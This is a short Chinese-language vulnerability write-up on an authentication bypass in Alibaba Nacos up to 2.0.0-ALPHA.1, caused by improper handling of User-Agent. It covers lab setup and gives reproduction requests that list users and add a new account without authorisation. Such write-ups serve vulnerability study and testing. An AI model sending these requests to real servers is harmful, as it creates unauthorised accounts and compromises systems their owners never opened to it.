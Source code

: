 # Alibaba Nacos权限认证绕过

## 漏洞描述

2020年12月29日，Nacos官方在github发布的issue中披露Alibaba Nacos 存在一个由于不当处理User-Agent导致的未授权访问漏洞，攻击者可以通过该漏洞来创建新用户账户。

## 漏洞影响

> Nacos <= 2.0.0-ALPHA.1

## 环境搭建

下载安装文件：

https://github.com/alibaba/nacos/releases/tag/2.0.0-ALPHA.1


之后执行以下命令启动环境：

- 

```
./startup.sh -m standalone
```

![1](resource/Alibaba-Nacos权限认证绕过/1.png)

之后访问http://your-ip:8848/nacos，默认账号密码为：nacos/nacos

![2](resource/Alibaba-Nacos权限认证绕过/2.png)



## 漏洞复现

Step 1:查看用户列表

- 

```
http://192.168.174.236:8848/nacos/v1/auth/users?pageNo=1&pageSize=1
```

![3](resource/Alibaba-Nacos权限认证绕过/3.png)

Step 2：添加用户Al1ex

```
http://your-ip:8848/nacos/v1/auth/users        POST:Nacos-Server.......
username=Al1ex&password=Al1ex
```

![4](resource/Alibaba-Nacos权限认证绕过/4.png)



Step 3:登录测试

![5](resource/Alibaba-Nacos权限认证绕过/5.png)

成功登录：

![6](resource/Alibaba-Nacos权限认证绕过/6.png)

